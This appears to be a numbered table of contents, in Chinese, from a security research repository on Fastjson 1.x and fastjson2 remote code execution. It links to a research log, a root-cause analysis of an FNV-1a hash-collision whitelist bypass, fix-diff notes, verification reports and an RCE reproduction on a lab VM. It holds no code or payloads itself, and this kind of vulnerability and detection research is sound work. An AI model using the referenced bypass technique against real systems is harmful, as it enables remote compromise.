3. 1.x 研究历程：Fastjson 1.2.83 autoType 通杀 RCE 研究历程全记录（QVD-2026-43021），三次方向修正的完整记录。
   `../../fastjson-1.2.83-rce-detection/research-journey/research-journey.md`

4. 2.x 根因分析：FNV-1a 选择前缀碰撞如何击穿 fastjson2 白名单。
   `../docs/analysis/ROOT_CAUSE.md`

5. 2.x 修复 diff 解读：PR #7695 逐文件逐行解读。
   `../docs/analysis/FIX_DIFF_ANALYSIS.md`

6. 2.x 编码差异分析：R1-R10 残留攻击面编号体系 + VM RCE 复现记录。
   `../docs/analysis/CODING_DIFF_ANALYSIS.md`

7. 2.x 验证报告：七条声明逐项验证 + VM 五层防御端到端实测。
   `../docs/exploit/VERIFICATION_REPORT.md`

8. 2.x RCE 复现验证：VM 192.168.31.55 上的端到端复现过程与 RCE 落地证据。
   `../docs/exploit/EXPLOIT_VERIFICATION.md`

9. 1.x 与 2.x 代际对比：架构差异、攻击链对照、迁移建议重写。
   `../docs/detection/COMPARISON_1X_2X.md`
